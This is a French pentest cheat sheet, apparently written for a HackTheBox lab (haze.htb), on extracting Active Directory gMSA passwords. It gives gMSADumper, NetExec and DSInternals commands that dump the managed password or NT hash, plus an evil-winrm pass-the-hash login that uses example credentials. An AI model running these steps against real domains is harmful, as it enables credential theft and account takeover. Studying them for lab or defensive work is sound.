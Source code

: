 # Read the GMSA Password

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-gmsa/?ref=benheater.com#reading-gmsa-password" %}

{% embed url="https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f?ref=benheater.com#file-gmsa_permissions_collection-ps1" %}

{% embed url="https://www.netwrix.com/gmsa_exploitation_attack.html?ref=benheater.com" %}

Les **gMSA** sont des comptes de service _automatiquement gérés_ par Active Directory.\
Ils ont été introduits à partir de Windows Server 2012.

Ce sont des comptes **ordinaires d’Active Directory**,\
mais :

* ils ont **un mot de passe généré et renouvelé automatiquement** par le DC,
* ils sont **utilisés par des serveurs ou services Windows** (SQL, IIS, etc.),
* et leur mot de passe **n’est jamais stocké localement en clair**.

***

#### <mark style="color:green;">⚙️ Structure dans AD :</mark>

Dans AD, un gMSA est un **objet utilisateur spécial** :

| Attribut AD                                  | Description                                                             |
| -------------------------------------------- | ----------------------------------------------------------------------- |
| `sAMAccountName`                             | Nom du gMSA (ex: `SQL01$`)                                              |
| `msDS-ManagedPassword`                       | Contient le mot de passe chiffré                                        |
| `PrincipalsAllowedToRetrieveManagedPassword` | Liste des entités (machines ou users) autorisées à lire le mot de passe |
| `servicePrincipalName`                       | SPN associé (si utilisé pour Kerberos)                                  |

Un **gMSA** est un compte de service AD dont le mot de passe est géré automatiquement par le **KDS (Key Distribution Service)**.\
Il est **long, complexe, change régulièrement** → mais **n’est jamais tapé à la main**.\
👉 En revanche, certains outils permettent de le lire / convertir pour exploitation (ex: Pass-the-Hash).

***

### <mark style="color:blue;">1️⃣ gMSADumper (Python)</mark>

#### <mark style="color:green;">Installation & usage :</mark>

{% code fullWidth="true" %}
```bash
git clone https://github.com/micahvandeusen/gMSADumper
cd gMSADumper
virtualenv .
source bin/activate
python3 -m pip install -r requirements.txt

python3 gMSADumper.py -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -l dc01.haze.htb -d haze.htb
```
{% endcode %}

* **+ :** Récupère le blob `msDS-ManagedPassword` via LDAP.
* **+ :** Donne directement le mot de passe en clair du gMSA.
* **– :** Nécessite Python + dépendances.

#### <mark style="color:green;">Exemple sortie :</mark>

```
gMSA Account: Haze-IT-Backup$
Password: S0m3_Rand0m_GMSA_P@ssw0rd!
```

***

### <mark style="color:blue;">2️⃣ NetExec (ex CrackMapExec)</mark>

#### <mark style="color:green;">Commande simple :</mark>

```bash
nxc ldap dc01.haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
```

* **+ :** Très rapide, intégré dans un outil déjà utilisé en pentest (NetExec).
* **+ :** Pas besoin d’installer DSInternals ni scripts Python.
* **– :** Affiche directement le mot de passe → à manipuler avec précaution.

***

### <mark style="color:blue;">3️⃣ DSInternals (PowerShell)</mark>

#### <mark style="color:green;">Étapes :</mark>

1. Télécharger + préparer module :

```bash
pwsh -c "Save-Module DSInternals -Path ."
zip -r DSInternals.zip DSInternals
# Upload sur la cible via evil-winrm
Expand-Archive DSInternals.zip
mkdir "$env:UserProfile\Documents\WindowsPowerShell\Modules\DSInternals"
Copy-Item -Recurse .\DSInternals\DSInternals\5.1\* "$env:UserProfile\Documents\WindowsPowerShell\Modules\DSInternals"
Import-Module DSInternals
```

2. Extraction du mot de passe gMSA :

```powershell
$targetGmsa = Get-ADServiceAccount -Identity 'Haze-IT-Backup' -Property 'msDS-ManagedPassword'
$converted = ConvertFrom-ADManagedPasswordBlob $targetGmsa.'msDS-ManagedPassword'
$secureString = ConvertTo-SecureString $converted.'CurrentPassword' -AsPlainText -Force
ConvertTo-NTHash -Password $secureString
```

* **+ :** Méthode native PowerShell (pas besoin d’outils externes côté AD).
* **+ :** Conversion automatique → NTLM Hash directement utilisable pour **Pass-the-Hash**.
* **– :** Plus verbeux, nécessite PowerShell 5.1+ et DSInternals.

***

### <mark style="color:blue;">🔑 Exploitation après extraction</mark>

* Avec **mot de passe en clair** → connexion RDP / services directement.
* Avec **NTLM Hash** → Pass-the-Hash via `evil-winrm`, `smbexec`, `wmiexec`, etc.

#### <mark style="color:green;">Exemple :</mark>

```bash
evil-winrm -i dc01.haze.htb -u 'Haze-IT-Backup$' -H 'ab45e0f0c7d0a92b12ce9843fbaabc2c'
```

***

## <mark style="color:blue;">📌 Tableau comparatif</mark>

| Outil           | Sortie obtenue        | Avantage principal                | Limite principale    |
| --------------- | --------------------- | --------------------------------- | -------------------- |
| **gMSADumper**  | Mot de passe en clair | Flexible, script Python portable  | Installe deps Python |
| **NetExec**     | Mot de passe en clair | Ultra simple et rapide (1 ligne)  | Moins discret        |
| **DSInternals** | NTLM hash + password  | Conversion directe → PTH possible | Plus verbeux         |

***
